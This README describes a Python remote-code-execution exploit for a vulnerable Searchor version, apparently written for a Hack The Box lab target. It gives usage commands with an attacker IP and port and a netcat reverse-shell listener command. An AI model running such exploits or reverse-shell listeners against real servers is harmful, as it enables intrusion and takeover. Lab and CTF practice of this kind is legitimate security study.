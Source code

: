
This is just a quick script to exploit webservers running the vulnerable version of Searchor.

This script will accept a hostname, the attacker's IP address and the attacker's Port number.

- Usage example: 
 -  `python3 searchor_2.4.0_RCE.py <HOSTNAME> <ATK_IP> <ATK_PORT>
 -  `python3 searchor_2.4.0_RCE.py searchor.htb 10.10.14.52 4242`
 
- It is recommended to use the following when preparing to catch the reverse shell:
 -  `rlwrap nc -lvnp <ATK_PORT>` 

Additional details about the vulnerability can be found in the official issue history for [Searchor](https://github.com/ArjunSharda/Searchor/pull/130).

